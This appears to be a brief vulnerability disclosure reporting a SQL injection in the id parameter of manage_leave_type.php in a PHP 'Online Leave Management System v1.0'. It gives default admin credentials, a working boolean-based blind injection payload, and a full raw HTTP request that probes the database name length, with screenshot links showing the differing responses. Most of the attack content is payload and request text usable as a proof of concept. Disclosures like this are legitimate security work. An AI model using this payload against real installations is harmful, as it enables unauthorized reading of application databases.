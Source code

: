 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Zhang Huaiyu

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /leave_system/admin/maintenance/manage_leave_type.php?id

Vulnerability location: /leave_system/admin/maintenance/manage_leave_type.php?id=,id

dbname=leave_db,length=8

[+] Payload:  /leave_system/admin/maintenance/manage_leave_type.php?id=3%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /leave_system/admin/maintenance/manage_leave_type.php?id=3%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

length=8
![image](https://user-images.githubusercontent.com/54017627/183634367-5312a664-27c1-4eb2-a6e8-65dd4f8e6015.png)


length=9
![image](https://user-images.githubusercontent.com/54017627/183634407-a9643f37-fbb7-4834-b6c4-a7bd7e77bdde.png)

